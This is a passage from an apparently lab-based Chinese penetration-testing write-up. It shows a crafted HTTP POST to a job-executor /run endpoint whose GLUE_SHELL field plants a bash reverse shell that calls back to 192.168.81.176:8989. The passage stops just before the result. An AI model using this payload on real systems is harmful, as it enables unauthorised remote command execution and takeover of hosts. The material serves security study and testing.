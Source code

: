 ![Untitled](image/Untitled%203.png)

再次抓包改包

```
POST /run HTTP/1.1
Host: 192.168.81.173:9999
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_COOKIE_NAME_PREFIX=jms_; X-JMS-ORG=00000000-0000-0000-0000-000000000002; jms_public_key="LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlHZk1BMEdDU3FHU0liM0RRRUJBUVVBQTRHTkFEQ0JpUUtCZ1FDOFI1eU1GM1NTZGhySVdONm42UHNRV3ZYcgpjTXZKMXNaam55aVNTTjlvaGlqTHFXUHFZMkI4dzNYdkM0RTRTdnl2eTkxT0xyWVVrVG52ckhTK2c2aUhLQ1RZClRucXR5T0lSN3BpaGlZSTFObmxYY25KWVpMcjhXTXowYVlrdVViSHJVNFBhQWQ4aFlzRmJvbGwzMlVBeGROSSsKblk5cU1LWnluUGFYT3M2aDFRSURBUUFCCi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQ=="; jms_session_expire=close; jms_csrftoken=qMzSigM9M0moTYJM51O87LcR1ufq0uyZ; jms_sessionid=ax938kdr2yc855mefi7sz53t18ibnefj; activeTab=Detail
Connection: close

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "echo 'bash -i >& /dev/tcp/192.168.81.176/8989 0 >&1' > /tmp/1.sh",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

结果如下：

